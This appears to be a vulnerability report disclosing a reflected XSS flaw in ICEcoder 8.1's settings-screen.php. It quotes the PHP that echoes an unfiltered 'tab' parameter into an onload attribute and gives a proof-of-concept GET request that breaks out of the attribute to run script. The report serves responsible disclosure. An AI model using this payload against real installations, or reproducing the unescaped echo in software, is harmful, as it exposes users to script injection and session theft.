


A xss vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/settings-screen.php

```php
...
if (true === isset($_GET['tab'])) {
    $tabSwitchExtra = "switchTab('" . $_GET['tab'] . "');";		// Line 42 (Source)
}
...
<body class="settings" onkeyup="parent.ICEcoder.handleModalKeyUp(event, 'settings')" onload="<?php echo $tabSwitchExtra;?>this.focus();">	// Line 50(Sink)
```

Source from `$_GET['tab']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/settings-screen.php?tab=style%27)%22%20onerror=%22alert(%27xss%27)%22%20(%27&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php

# Manual verification






The developer has been informed of the report via email